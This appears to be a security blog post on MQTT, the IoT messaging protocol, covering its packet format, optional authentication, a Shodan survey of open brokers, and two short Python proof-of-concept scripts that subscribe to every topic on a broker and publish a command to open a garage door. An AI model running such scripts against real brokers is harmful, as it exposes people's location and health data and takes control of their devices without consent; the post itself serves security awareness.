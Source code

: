 ```yaml
---
layout: page
title:  "Hacking IoT with MQTT"
date:   2018-09-12 11:21:21 +0530
categories: ["IoT"]
---
```

This Post is about MQTT a wide protocol used by IoT devices and some of the security concerns about it.
Here we are perfoming some real examples and proof of concept code (PoC) will also be presented.

This post is organized as follows:

- Introduction
- The Publish/Subscribe Pattern
- Packet Format
- MQTT Security
- Survey: Shodan and Statistics
- What is Out There ?
- Conclusions

**1. Introduction**
MQTT is a M2M protocol created by Andy Stanford-Clark and Arlen Nipper.

MQTT official definition (from mqtt.org):

MQTT stands for MQ Telemetry Transport. It is a publish/subscribe, extremely simple and lightweight messaging protocol, designed for constrained devices and low-bandwidth, high-latency or unreliable networks. The design principles are to minimise network bandwidth and device resource requirements whilst also attempting to ensure reliability and some degree of assurance of delivery. These principles also turn out to make the protocol ideal of the emerging “machine-to-machine” (M2M) or “Internet of Things” world of connected devices, and for mobile applications where bandwidth and battery power are at a premium.

Some of the protocol main features:

- Publish and subscribe pattern
- Simple packet formats: binary payloads
- Current version: 3.1.1 (Dec/2015)
- The protocol runs over TCP
- Default port: 1883/TCP (not encrypted!)

**2. The Publish/Subscribe Pattern**
The publish/subscribe model is composed of:

Publisher: publishes a message to one (or many) topic(s) in the broker.
Subscriber: subscribes to one (or many) topic(s) in the broker and receives all the messages sent from the publisher.
Broker: routes all the messages from the publishers to the subscribers.
Topic: consists of one or more levels that are separated by a a forward slash (e.g., /smartshouse/livingroom/temperature).

![image1](/assets/img/mqtt1.png)

**3. Packet Format**
Every MQTT packet contains a fixed header (Figure 02).
![image2](/assets/img/mqtt2.png)

The first field of the fixed header represents the type of the MQTT Packet. All packet types are listed in table 01.

![image3](/assets/img/mqtt3.png)

**4. MQTT Security**
MQTT official note about security (from mqtt.org):
You can pass a user name and password with an MQTT packet in V3.1 of the protocol. Encryption across the network can be handled with SSL, independently of the MQTT protocol itself (it is worth noting that SSL is not the lightest of protocols, and does add significant network overhead). Additional security can be added by an application encrypting data that it sends and receives, but this is not something built-in to the protocol, in order to keep it simple and lightweight.

Clients can authenticate to the MQTT Broker sending a user name and password with the CONNECT packet.
![image4](/assets/img/mqtt4.png)

The CONNACK Packet is the packet sent by the MQTT Broker in response to a CONNECT Packet received from the client. The CONNACK packet header contains a "return code" field that represents the result of the authentication (e.g, Connection Accepted). All return code values are listed in table 02.
![image5](/assets/img/mqtt5.png)

Two points to consider:

- First: Authentication is totally optional (More of this in Section 5).
- Second: Even if authentication is being performed, encryption is not used by default (credentials are sent in clear text).   MITM attacks can still be executed to steal passwords.

**5. Survey: Shodan and Statistics**
We can use Shodan to see how many MQTT servers can be found in the Internet. A brief search with "port:1883" returns more than 5 lakh hosts. Most of the MQTT servers can be found in China and the United States (almost 40% of the total).
![image6](/assets/img/mqtt6.png)

But is security really being implemented in these MQTT servers ?

A Python script was created to connect to a subset of the hosts found with Shodan and verify if (at least) authentication is being used. We can check the "Return Code" field from the CONNACK packet to confirm this. Figure 05 shows the connection results obtained from the python script with a total of 800 MQTT Servers.
![image7](/assets/img/mqtt7.png)

We can see that most MQTT Servers don't even use authentication (almost 70%). Only 11% of all hosts returned us a "Bad user name or password" code in the CONNACK packet (I wonder if they use default passwords !?).

**6. What is Out There ?**
You can connect to a server and subscribe to all topics with a simple script:

``` 
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
   print "[+] Connection successful"
   client.subscribe('#', qos = 1)        # Subscribe to all topics
   client.subscribe('$SYS/#')            # Broker Status (Mosquitto)
def on_message(client, userdata, msg):
   print '[+] Topic: %s - Message: %s' % (msg.topic, msg.payload)
client = mqtt.Client(client_id = "MqttClient")
client.on_connect = on_connect
client.on_message = on_message
client.connect('SERVER IP HERE', 1883, 60)
client.loop_forever()
```
A summary of some of the open MQTT servers found in the wild:

Different kinds of IoT devices

- Sensors: Light and temperature values
- Fitness devices: Fitbit
- Health devices: Blood Pressure Monitors
- Location services: Owntracks (really creepy stuff!)
- Home automation kits: SmartThings (Samsung)

Examples of open MQTT servers can be seen in figures 06 and 07:
![images9](/assets/img/mqtt9.png)
![images10](/assets/img/mqtt10.png)

A frightening security risk appears when an attacker is able to control IoT devices by publishing commands to a MQTT topic (e.g., turn off the lights and open the garage door). A simple python script to open a fictitious garage door is shown here:

```
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
   print "[+] Connection success"
client = mqtt.Client(client_id = "MqttClient")
client.on_connect = on_connect
client.connect('IP SERVER HERE', 1883, 60)
client.publish('smarthouse/garage/door', "{'open':'true'}")
```
**7. Conclusions**
Security is a big challenge to IoT and embedded devices. Attacks will reduce the gap between the real and virtual world (e.g., attackers being able to remotely control smart houses). Security professionals must understand the new technologies and protocols used by smart devices. I guess we will be seeing more attacks in the IoT using lightweight protocols like MQTT.
